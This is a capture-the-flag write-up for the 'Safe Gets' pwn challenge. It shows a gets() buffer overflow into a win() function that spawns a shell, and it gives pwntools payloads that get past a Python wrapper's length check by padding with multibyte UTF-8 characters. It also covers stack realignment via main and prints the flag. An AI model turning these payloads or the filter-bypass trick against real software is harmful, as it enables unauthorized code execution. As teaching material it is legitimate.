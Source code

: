 ```yaml
---
title: Safe Gets
date: 2025-07-14T21:42:41+03:00
description: Writeup for Safe Gets [L3akCTF_2025s]
author: vikcoc
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I think I found a way to make gets safe.

## Intuition

If we take a look at it with Ghidra
```asm
        004011a5 48 8d 85        LEA        RAX=>local_118,[RBP + -0x110]
                 f0 fe ff ff
        004011ac 48 89 c7        MOV        RDI,RAX
        004011af b8 00 00        MOV        EAX,0x0
                 00 00
        004011b4 e8 e7 fe        CALL       FUN_004010a0                                     undefined FUN_004010a0()
                 ff ff
```
Where `FUN_004010a0` is just `gets`, we are given the entry point for a ROP exploit.\
A close look at other functions packaged in the executable also shows our destination.
```C
void win(void)

{
  system("/bin/sh");
  return;
}
```

## Solution

After taking a look at it with pwndbg:
```bash
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
We see that no leak is needed, as the code is not Position Independent.\
The challenge comes from the wrapper that filters our inputs.
```python
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
# print(payload)
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```
If the first line is too long it gets denied.\
A hint is given further down.
```python
        proc.stdin.write(line.encode('latin1'))
        proc.stdin.flush()
```
This has something to do with encoding.\
For UTF-8[^1] we learn that a character can be multiple bytes long, for example `অ`. Therefore sending the next line should do the trick:
```python
pwin = 0x401262
paywin1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'aa' + pwn.p64(pwin)
target.sendlineafter(b'(max 255 bytes)', paywin1)
```
But it doesn't, because we get a stack not aligned error.\
No problem, we can jump back to main to align the stack. But doing that raises an error in the wrapper. That it cannot decode the input to utf-8.\
That happens because byte `0x96` in the main address is `10010110`, an encoding for at least the second byte in a UTF-8 character[^1].\
Luckily for us, we are dealing with a little endian architecture and `0x96` is the last byte in the address. That makes `0x96` the first byte that is not padding, thus we can change the byte before it to `0xC2` and be on our way.

```python
pmain = 0x401196
paymain1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'a\xC2' + pwn.p64(pmain)
print(target.sendlineafter(b'(max 255 bytes)', paymain1).decode())
```
Another thing to note is that for the rest of the lines the wrapper encodes to `latin1`, and it removes the size limit, which necessitates another small adjustment.
```python
pwin = 0x401262
paywin2 = b'/bin/sh'[::-1] + b'\0' + b'b' * 0x10E + b'aa' + pwn.p64(pwin)
print(target.sendlineafter(b'/bin/sh', paywin2, timeout=2).decode())
```
After that we get a shell and take the flag.

### Flag

`L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}`

## References

[^1]: https://en.wikipedia.org/wiki/UTF-8#Description
